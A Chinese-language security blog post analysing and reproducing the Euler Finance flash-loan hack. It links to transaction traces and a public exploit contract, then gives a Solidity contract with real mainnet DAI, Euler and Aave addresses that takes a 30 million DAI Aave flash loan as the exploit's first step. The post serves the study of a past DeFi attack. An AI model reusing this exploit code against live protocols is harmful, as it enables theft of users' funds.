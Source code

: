 0x583c : [Euler Pool: Dai Stablecoin (eDAI) Token Tracker | Etherscan](https://etherscan.io/token/0xe025e3ca2be02316033184551d4d3aa22024d9dc?a=0x583c21631c48d442b5c0e605d624f54a0b366c72)

黑客的主要攻击路径

[![image-20231112174618122](assets/1704418372-a5a06f8f4b3c48df7ce437ac96c02ba4.png)](https://oosec.cn/2023/11/12/EulerFinance%E9%97%AA%E7%94%B5%E8%B4%B7%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90%E5%A4%8D%E7%8E%B0/image-20231112174618122.png)

(图片来自 PeckShield) 当然自己也可以根据[eth-0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d | MetaSleuth](https://metasleuth.io/result/eth/0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d)分析

## 漏洞复现：

黑客闪电贷 exp:[Tutorials/EulerHack.sol at main · BuildBearLabs/Tutorials (github.com)](https://github.com/BuildBearLabs/Tutorials/blob/main/EulerHack.sol)

### 黑客 exp 分析

1.通过 Aave 的闪电贷借入 3000 万 DAI。这可以通过使用以下合约来完成，其中 excuteHack 用于请求闪电贷，excuteOperation 由 Aave 的闪电贷合约调用。

```js
contract Main {  
    DAI dai=DAI(0x6B175474E89094C44Da98b954EedeAC495271d0F);  //DAI 合约  
    Euler euler=Euler(0x27182842E098f60e3D576794A5bFFb0777E025d3);  //Euler 合约  
    AAVE aave=AAVE(0x7d2768dE32b0b80b7a3454c06BdAc94A69DDc7A9); //AAVE 合约  
    address owner;   
    address\[\] tokens;  
    uint256\[\] nums1;  
    uint256\[\] nums2;  
    function excuteHack() public{  
        tokens.push(address(dai));  
        nums1.push(30000000000000000000000000);  
        nums2.push(0);  
        aave.flashLoan(address(this),tokens,nums1,nums2,address(this),hex"",0);  
    }  
    constructor(){  
      owner =msg.sender;  
    }  
    function executeOperation(  
        address\[\] calldata assets,  
        uint256\[\] calldata amounts,  
        uint256\[\] calldata premiums,  
        address initiator,  
        bytes calldata params  
    ) external returns (bool){  
        dai.approve(address(aave),type(uint256).max);  
        return true;  
    }
```
